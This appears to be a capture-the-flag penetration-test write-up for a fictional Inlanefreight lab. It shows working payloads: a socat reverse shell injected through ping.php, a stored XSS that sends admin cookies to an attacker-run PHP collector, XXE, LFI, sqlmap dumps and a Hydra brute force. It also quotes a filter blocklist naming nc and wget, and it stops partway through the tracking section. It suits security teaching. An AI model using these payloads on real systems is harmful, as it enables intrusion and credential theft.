## Task

Our client, Inlanefreight, has contracted our company, Acme Security, Ltd., to perform a full-scope External Penetration Test to assess their perimeter security. The customer has asked us to identify as many vulnerabilities as possible; therefore, evasive testing is not required. They would like to see what sort of access can be achieved by an anonymous user on the Internet. Per the Rules of Engagement (RoE), if we can breach the DMZ and gain a foothold into the internal network, they would like us to see how far we can take that access, up to and including Active Directory domain compromise. The client has not provided web application, VPN, or Active Directory user credentials. The following domain and network ranges are in scope for testing:

|**External Testing**|**Internal Testing**|
|---|---|
|10.129.x.x ("external" facing target host)|172.16.8.0/23|
|*.inlanefreight.local (all subdomains)|172.16.9.0/23|
||INLANEFREIGHT.LOCAL (Active Directory domain)|

The customer has provided the primary domain and internal networks but has not given specifics on the exact subdomains within this scope nor the "live" hosts we will encounter within the network. They would like us to perform discovery to see what type of visibility an attacker can gain against their external network (and internal if a foothold is achieved).

Automated testing techniques such as enumeration and vulnerability scanning are permitted, but we must work carefully not to cause any service disruptions. The following are out of scope for this assessment:

- Phishing/Social Engineering against any Inlanefreight employees or customers
- Physical attacks against Inlanefreight facilities
- Destructive actions or Denial of Service (DoS) testing
- Modifications to the environment without written consent from authorized Inlanefreight IT staff

## Attack Summary

|Step|Vector|Outcome|
|---|---|---|
|1|Nmap scan of external host|11 open ports identified (FTP, SSH, SMTP, DNS, HTTP, POP3, RPC, IMAP, HTTP-proxy)|
|2|Anonymous FTP login|`flag.txt` read|
|3|DNS zone transfer (AXFR)|Full subdomain list and a flag TXT record disclosed|
|4|Vhost brute force (gobuster)|10+ internal vhosts discovered|
|5|blog.inlanefreight.local fingerprinting|Drupal 9 identified, no known CVE for the version|
|6|careers.inlanefreight.local IDOR|Flag read from another user's profile|
|7|dev.inlanefreight.local verb tampering + header spoofing + upload filter bypass|PHP webshell uploaded, flag read|
|8|gitlab.inlanefreight.local self-registration + /explore|New vhost `shopdev2.inlanefreight.local` and a flag disclosed|
|9|ir.inlanefreight.local mail-masta plugin LFI|`/etc/passwd` and flag read|
|10|monitoring.inlanefreight.local brute force + command injection + socat reverse shell|Shell as `webdev` on `dmz01`, flags read|
|11|shopdev2.inlanefreight.local default creds + XXE|Flag read via `file:///flag.txt`|
|12|status.inlanefreight.local SQL injection (sqlmap)|`users` and `company` tables dumped|
|13|support.inlanefreight.local stored XSS|Admin session cookie stolen, flag read from ticket queue|
|14|tracking.inlanefreight.local DOM XSS via `file://` XHR|`/etc/passwd` and flag read|
|15|vpn.inlanefreight.local login|Not bypassed, no access gained|

---

## Nmap Scan

```bash
nmap -sC -sV 10.129.34.144 --open
```

```
PORT     STATE SERVICE  VERSION
21/tcp   open  ftp      vsftpd 3.0.3
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
25/tcp   open  smtp     Postfix smtpd
53/tcp   open  domain   (unknown banner: 1337_HTB_DNS)
80/tcp   open  http     Apache httpd 2.4.41 ((Ubuntu))
110/tcp  open  pop3     Dovecot pop3d
111/tcp  open  rpcbind  2-4 (RPC #100000)
143/tcp  open  imap     Dovecot imapd (Ubuntu)
993/tcp  open  ssl/imap Dovecot imapd (Ubuntu)
995/tcp  open  ssl/pop3 Dovecot pop3d
8080/tcp open  http     Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Support Center
```

```bash
nmap -p- 10.129.34.144 --open -T5
```

```
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
25/tcp   open  smtp
53/tcp   open  domain
80/tcp   open  http
110/tcp  open  pop3
111/tcp  open  rpcbind
143/tcp  open  imap
993/tcp  open  imaps
995/tcp  open  pop3s
8080/tcp open  http-proxy
```

The full-range scan confirms no additional ports beyond the top-1000 scan.

---

## FTP Enumeration

```bash
ftp -a 10.129.39.98
```

```
220 (vsFTPd 3.0.3)
331 Please specify the password.
230 Login successful.
ftp> ls
-rw-r--r--    1 0        0              38 May 30  2022 flag.txt
ftp> more flag.txt
HTB{0eb0ab788df18c3115ac43b1c06ae6c4}
```

Anonymous FTP login is allowed, exposing a flag file directly in the root directory.

---

## DNS Zone Transfer

```bash
dig axfr inlanefreight.local @inlanefreight.local
```

```
inlanefreight.local.    86400   IN      SOA     ns1.inlanfreight.local. dnsadmin.inlanefreight.local. 21 604800 86400 2419200 86400
inlanefreight.local.    86400   IN      NS      inlanefreight.local.
inlanefreight.local.    86400   IN      A       127.0.0.1
blog.inlanefreight.local. 86400 IN      A       127.0.0.1
careers.inlanefreight.local. 86400 IN   A       127.0.0.1
dev.inlanefreight.local. 86400  IN      A       127.0.0.1
flag.inlanefreight.local. 86400 IN      TXT     "HTB{DNs_ZOn3_Tr@nsf3r}"
gitlab.inlanefreight.local. 86400 IN    A       127.0.0.1
ir.inlanefreight.local. 86400   IN      A       127.0.0.1
status.inlanefreight.local. 86400 IN    A       127.0.0.1
support.inlanefreight.local. 86400 IN   A       127.0.0.1
tracking.inlanefreight.local. 86400 IN  A       127.0.0.1
vpn.inlanefreight.local. 86400  IN      A       127.0.0.1
```

The name server allows an unauthenticated zone transfer, disclosing every subdomain in use plus a flag stored directly in a TXT record.

---

## Vhost Enumeration

```bash
gobuster vhost -u http://inlanefreight.local -w /home/kali/SecLists/Discovery/DNS/subdomains-top1million-20000.txt --append-domain
```

```
dev.inlanefreight.local Status: 200 [Size: 2048]
vpn.inlanefreight.local Status: 200 [Size: 1578]
support.inlanefreight.local Status: 200 [Size: 26635]
blog.inlanefreight.local Status: 200 [Size: 8708]
status.inlanefreight.local Status: 200 [Size: 878]
monitoring.inlanefreight.local Status: 200 [Size: 56]
careers.inlanefreight.local Status: 200 [Size: 51806]
tracking.inlanefreight.local Status: 200 [Size: 35211]
ir.inlanefreight.local Status: 200 [Size: 28548]
gitlab.inlanefreight.local Status: 302 [Size: 113] [--> http://gitlab.inlanefreight.local/users/sign_in]
www.monitoring.inlanefreight.local Status: 200 [Size: 56]
```

All discovered vhosts are added to `/etc/hosts` for further enumeration.

---

## blog.inlanefreight.local


The host runs a Drupal instance.

```bash
curl -s http://blog.inlanefreight.local/ | grep Drupal
```

```
<meta name="Generator" content="Drupal 9 (https://www.drupal.org)" />
```

Fingerprinting confirms Drupal 9, which has no known CVE for this version. No further exploitation is performed on this vhost.

---

## careers.inlanefreight.local


A new user account can be registered:


The newly created account's profile page discloses "Jobs applied by user", and the URL `profile?id=9` suggests an IDOR:


Changing the `id` parameter from `9` to `4` discloses another user's data, including the flag:


**Flag**:

```
HTB{8f40ecf17f681612246fa5728c159e46}
```

---

## dev.inlanefreight.local

A login form is presented:


Directory fuzzing discloses `upload.php`:

```bash
gobuster dir -u http://dev.inlanefreight.local -w /home/kali/SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-small.txt -x .php
```

```
index.php            (Status: 200) [Size: 2048]
images               (Status: 301) [Size: 335]
uploads               (Status: 301) [Size: 336]
upload.php           (Status: 200) [Size: 14]
css                   (Status: 301) [Size: 332]
js                    (Status: 301) [Size: 331]
```

A GET request to `/upload.php` returns a 403 Forbidden:


HTTP verb tampering (changing the method to `TRACK`) reflects a header `X-Custom-IP-Authorization: 172.18.0.1` in the response:


Sending a new request with that header set to `127.0.0.1` tricks the web server into treating the request as coming from an internal host, bypassing the authorization check:


The upload form becomes accessible:


Uploads are restricted to images; setting the `Content-Type` of the multipart field to `image/png` bypasses the filter, allowing a PHP webshell to be uploaded:


Browsing the web root through the webshell discloses the flag file:


Reading the flag:


**Flag:**

```
HTB{57c7f6d939eeda90aa1488b15617b9fa}
```

---

## gitlab.inlanefreight.local

An account is registered:


Navigating to `/explore`:


The flag and a new vhost, `shopdev2.inlanefreight.local`, are discovered.

**Flag:**

```
HTB{32596e8376077c3ef8d5cf52f15279ba}
```

---

## ir.inlanefreight.local

The page displayed is powered by WordPress:


```bash
curl -s http://ir.inlanefreight.local | grep WordPress
```

```
<meta name="generator" content="WordPress 6.0" />
```

Enumeration with WPScan reveals users and the vulnerable `mail-masta` plugin, which is affected by a Local File Inclusion vulnerability:

```bash
wpscan --url http://ir.inlanefreight.local --enumerate p,t,u
```

```
[+] mail-masta
 | Version: 1.0

Users identified: ilfreightwp, john, tom, james
```

The LFI is exploited to read `/etc/passwd`:

```bash
curl "http://ir.inlanefreight.local/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd"
```

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin

```

The same parameter is used to read the flag:

```bash
curl "http://ir.inlanefreight.local/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/www/html/flag.txt"
```

**Flag:**

```
HTB{e7134abea7438e937b87608eab0d979c}
```

---

## monitoring.inlanefreight.local

A login form is presented:


Brute forcing with Hydra reveals valid credentials:

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt monitoring.inlanefreight.local http-post-form "/login.php:username=^USER^&password=^PASS^:F=Invalid"
```

```
[80][http-post-form] host: monitoring.inlanefreight.local   login: admin   password: 12qwaszx
```

After login, a very limited shell interface is accessible:


Enumerating the source code of the page:


`main.js` discloses an endpoint that runs a `ping` command server-side, and a function that calls it with a user-controllable IP, suggesting a possible command injection:


Testing the endpoint confirms the ping functionality works as expected:


Command injection is confirmed using `%0a` (URL-encoded newline), which is not blacklisted:

```
/ping.php?ip=127.0.0.1%0acat${IFS}${PATH:0:1}etc${PATH:0:1}passwd
```


Reading the source of `ping.php` itself, via the same injection:

```
GET /ping.php?ip=127.0.0.1%0acat${IFS}ping.php
```


```php
<?php
function filter($str)
{
  $operators = ['&', '|', ';', '\\', '/', ' '];
  foreach ($operators as $operator) {
    if (strpos($str, $operator)) {
      return true;
    }
  }
  $words = ['whoami', 'echo', 'rm', 'mv', 'cp', 'id', 'curl', 'wget', 'cd', 'sudo', 'mkdir', 'man', 'history', 'ln', 'grep', 'pwd', 'file', 'find', 'kill', 'ps', 'uname', 'hostname', 'date', 'uptime', 'lsof', 'ifconfig', 'ipconfig', 'ip', 'tail', 'netstat', 'tar', 'apt', 'ssh', 'scp', 'less', 'more', 'awk', 'head', 'sed', 'nc', 'netcat'];
  foreach ($words as $word) {
    if (strpos($str, $word) !== false) {
      return true;
    }
  }
  return false;
}

if (isset($_GET['ip'])) {
  $ip = $_GET['ip'];
  if (filter($ip)) {
    $output = "Invalid input";
  } else {
    $cmd = "bash -c 'ping -c 1 " . $ip . "'";
    $output = shell_exec($cmd);
  }
}
?>
```

The filter blacklists several operators and command names but does not block `/`-less binaries like `socat`, which is present on the host:


A socat reverse shell listener is started locally and adapted to evade the filter (operators quoted character-by-character, `${IFS}` used instead of spaces):

```bash
socat TCP:10.10.14.111:9001 EXEC:bash
```

```
GET /ping.php?ip=127.0.0.1%0aso'c'at${IFS}TCP:10.10.14.111:9001${IFS}EXEC:bash
```


A shell as `webdev` is obtained on host `dmz01`:

```bash
nc -lvnp 9001
```

```
connect to [10.10.14.111] from (UNKNOWN) [10.129.41.126] 57022
id
uid=1004(webdev) gid=1004(webdev) groups=1004(webdev),4(adm)
```

```bash
webdev@dmz01:/var/www/html/monitoring$ find / -name "flag.txt" 2>/dev/null

/home/srvadm/flag.txt

/srv/ftp/flag.txt
```

**Flags:**

```bash
webdev@dmz01:/var/www/html/monitoring$ cat /home/srvadm/flag.txt

b447c27a00e3a348881b0030177000cd

webdev@dmz01:/var/www/html/monitoring$ cat /srv/ftp/flag.txt

HTB{0eb0ab788df18c3115ac43b1c06ae6c4} # same of the ftp server
```


> [!note] This shell is kept for later local privilege escalation and pivoting into the internal networks.

---

## shopdev2.inlanefreight.local

This vhost was disclosed via the GitLab `/explore` page. A login is presented:


The page is accessible with `admin:admin`:


Selecting items and going to checkout shows the "Complete Purchase" action accepts an XML body, as seen in Burp:





An XXE payload is tested to read `/etc/passwd` and works:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root>
    <subtotal>&xxe;</subtotal>
    <userid>&xxe;</userid>
</root>
```



The same technique is used to read the flag:



**Flag:**

```
HTB{dbca4dc5d99cdb3311404ea74921553c}
```

---

## status.inlanefreight.local

Testing a single quote (`'`) in the search field triggers a SQL syntax error, indicating a SQL injection:



The request is captured in Burp and passed to sqlmap:

```bash
sqlmap -r status.txt --technique=BEU --batch --dump
```

```
Parameter: searchitem (POST)
    Type: boolean-based blind
    Type: error-based
    Type: UNION query

back-end DBMS: MySQL >= 5.6

Database: status
Table: users
+----+-----------------------------------+----------+
| id | password                          | username |
+----+-----------------------------------+----------+
| 1  | 4528342e54d6f8f8cf15bf6e3c31bf1f6 | Admin    |
| 2  | 1fbea4df249ac4f4881a5da387eb297cf | Flag     |
+----+-----------------------------------+----------+

Database: status
Table: company
[6 entries]
```

The injection confirms the back-end is MySQL and dumps the `users` and `company` tables. A `Flag` user row is present.

---

## support.inlanefreight.local


The site is a support center with two main functions: buy a product and raise a ticket. The `/ticket.php` endpoint is vulnerable to stored XSS, used to capture the admin's session cookie:


`script.js` (hosted locally):

```javascript
document.location='http://10.10.15.1/index.php?c='+document.cookie;
new Image().src='http://10.10.15.1/index.php?c='+document.cookie;
```

`index.php` (hosted locally):

```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```

A local server is started with both files:

```bash
sudo php -S 0.0.0.0:80
```

The following payload is submitted in the ticket's message field, as shown above:

```javascript
"><script src="http://10.10.14.111/script.js"></script>
```

The admin's cookie is captured when the ticket is viewed:

```bash
sudo php -S 0.0.0.0:80

[Mon Nov 9 14:20:31 2026] PHP 8.4.27 Development Server (http://0.0.0.0:80) started
[Mon Nov 9 14:25:19 2026] 10.129.41.101:32818 Accepted
[Mon Nov 9 14:25:19 2026] 10.129.41.101:32818 [200]: GET /script.js
[Mon Nov 9 14:25:19 2026] 10.129.41.101:32818 Closing
[Mon Nov 9 14:25:19 2026] 10.129.41.101:32820 Accepted
[Mon Nov 9 14:25:19 2026] 10.129.41.101:32820 [200]: GET /index.php?c=session=fcfaf93ab169bc943b92109f0a845d99
[Mon Nov 9 14:25:19 2026] 10.129.41.101:32820 Closing
[Mon Nov 9 14:25:21 2026] 10.129.41.101:32842 Accepted
[Mon Nov 9 14:25:21 2026] 10.129.41.101:32842 [200]: GET /script.js
[Mon Nov 9 14:25:21 2026] 10.129.41.101:32842 Closing
[Mon Nov 9 14:25:21 2026] 10.129.41.101:32844 Accepted
[Mon Nov 9 14:25:21 2026] 10.129.41.101:32844 [200]: GET /index.php?c=session=fcfaf93ab169bc943b92109f0a845d99
[Mon Nov 9 14:25:21 2026] 10.129.41.101:32844 Closing
```

The cookie is added via Cookie-Editor:



Logging in with the stolen session grants access to the admin dashboard and the ticket queue, where the flag is visible:


**Flag:**

```
HTB{1nS3cuR3_c00k135}
```

---

## tracking.inlanefreight.local

The page's only functionality is to track an order by its ID:





Testing a basic XSS payload :

```javascript
<script>alert(1)</script>
```

confirms the input is executed as JavaScript rather than rendered as text (the "Tracking #" field becomes empty):



A payload using a synchronous XHR request to a `file://` URI is used to read `/etc/passwd`:

```javascript
<script>
  var x = new XMLHttpRequest();
  x.open("GET", "file:///etc/passwd", false);
  x.send();
  document.write(x.responseText);
</script>
```

The browser allows the page's script to read local files via the `file://` scheme, and the content is written into the DOM (Document Object Model), where it is then displayed under the "Tracking #" field:



